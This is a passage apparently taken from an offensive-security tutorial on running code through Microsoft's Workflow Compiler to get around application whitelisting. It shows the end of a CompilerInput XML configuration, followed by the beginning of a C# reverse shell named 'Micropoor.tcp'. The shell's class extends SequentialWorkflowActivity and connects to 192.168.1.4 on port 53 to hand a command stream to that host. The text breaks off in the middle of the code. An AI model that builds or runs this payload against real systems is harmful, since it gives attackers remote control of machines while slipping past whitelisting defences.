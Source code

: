    <d2p1:generateCCU>false</d2p1:generateCCU>
    
    <d2p1:languageToUse>CSharp</d2p1:languageToUse>
    
    <d2p1:libraryPaths xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" i:nil="true" />
    
    <d2p1:localAssembly xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Reflection" i:nil="true" />
    
    <d2p1:mtInfo i:nil="true" />
    
    <d2p1:userCodeCCUs xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.CodeDom" i:nil="true" />
    
    </parameters>
    
    </CompilerInput>
    
        

**Micropoor.tcp：**

    using System;
    
    using System.Text;
    
    using System.IO;
    
    using System.Diagnostics;
    
    using System.ComponentModel;
    
    using System.Net;
    
    using System.Net.Sockets;
    
    using System.Workflow.Activities; 
    
    public class Program : SequentialWorkflowActivity
    
    {
    
    static StreamWriter streamWriter; 
    
    public Program()
    
    {
    
    using(TcpClient client = new TcpClient("192.168.1.4", 53))
    
    {
    
    using(Stream stream = client.GetStream())
    
    {
    
    using(StreamReader rdr = new StreamReader(stream))
    
    {
    
    streamWriter = new StreamWriter(stream); 
    
    StringBuilder strInput = new StringBuilder(); 
    